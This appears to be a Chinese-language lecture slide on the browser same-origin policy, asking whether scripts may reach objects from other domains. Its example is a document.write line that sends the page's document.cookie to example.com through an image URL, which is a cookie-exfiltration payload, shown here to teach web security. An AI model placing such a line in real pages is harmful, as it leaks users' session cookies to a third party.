

# 同源策略
在页面中动态对象添加

问题：一个页面可能包含来自多个域名的对象
是否允许Javascript脚本访问其它域名的对象呢？

document.write(
	'<img src=“http://example.com/?c=' + document.cookie + '></img>'
);
<script src=‘https://code.jquery.com/jquery-2.1.3.min.js’></script>